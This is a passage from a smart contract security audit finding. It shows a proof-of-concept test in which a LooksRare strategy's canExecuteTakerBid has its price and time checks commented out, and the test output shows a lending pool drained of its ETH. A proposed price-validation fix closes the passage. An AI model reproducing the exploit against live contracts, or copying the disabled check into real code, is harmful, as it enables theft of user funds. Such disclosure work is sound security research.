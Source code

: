 ```
        gasLimit: 5000000,
      }
  );

  await (await tx).wait();
}
```

Finally, we need to change the passed execution strategy. In StrategyStandardSaleForFixedPrice.sol, change canExecuteTakerBid:
```
function canExecuteTakerBid(OrderTypes.TakerOrder calldata takerBid, OrderTypes.MakerOrder calldata makerAsk)
    external
    view
    override
    returns (
        bool,
        uint256,
        uint256
    )
{
    return (
        //((makerAsk.price == takerBid.price) &&
        //    (makerAsk.tokenId == takerBid.tokenId) &&
        //    (makerAsk.startTime <= block.timestamp) &&
        //    (makerAsk.endTime >= block.timestamp)),
        true,
        makerAsk.tokenId,
        makerAsk.amount
    );
}
```

We can see the output:
```
maker balance before BigNumber { value: "0" }
taker balance before BigNumber { value: "10000000000000000000" }
pool balance before BigNumber { value: "990000000000000000000" }
maker balance after BigNumber { value: "1000000000000000000000" }
taker balance after BigNumber { value: "0" }
pool balance after BigNumber { value: "0" }

  Leveraged Buy - Positive tests
    ✔ looksrare attack (34857ms)


  1 passing (54s)

```

## Tools Used

Manual audit

## Recommended Mitigation Steps

It is important to validate that the price charged to user is the same price taken from the Pool contract:
```
// In LooksRareAdapter's getAskOrderInfo:
require(makerAsk.price, takerBid.price)
```